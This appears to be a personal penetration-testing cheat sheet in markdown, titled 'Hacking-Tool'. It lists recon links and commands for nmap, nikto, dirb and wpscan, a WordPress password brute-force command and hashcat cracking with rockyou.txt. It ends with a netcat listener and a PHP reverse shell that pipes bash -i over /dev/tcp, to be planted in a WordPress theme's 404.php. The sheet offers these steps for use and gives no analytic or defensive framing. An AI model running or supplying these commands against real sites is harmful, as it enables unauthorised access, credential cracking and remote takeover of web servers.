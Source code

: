 ﻿# Hacking-Tool
https://www.whois.com/whois
https://wigle.net/
https://gchq.github.io/CyberChef/

exiftool <bild.png>

## Scan
### Nmap
    scans ports on a server
    nmap -A -p 22,80,443 <ip>
    nmap --script vuln -p 22,80,443 <ip>
### nikto
    scans /xyz
    nikto -h http://<ip>/ -nossl
### Directory scan
    dirb http://<ip>
### Wordpress scan
    scans Wordpress sites
    wpscan --url http://<ip>/ -et -ep -eu 
    wpscan --url http://<ip>/ --wp-content-dir -et -ep -eu
    Bruteforcing wordpress:
    wpscan --url http://<ip>/ --wp-content-dir -eu -P <file>.dic

## asdf
  ### hashcat
    Cracks hash
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt //
    hashcat -m 0 <hash> ~/Desktop/rockyou.txt --show

## reverse shell
### listener
    nc -lvp <port>
### php // wordpress
    Go to appearance -> editor -> Put the code in 404.php
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
    ?>


## Else
### Files
#### download
    wget <url>
#### Sort file and remove duplication
    sort <file> | uniq > sort_<file>
    wc -l sort_<file>
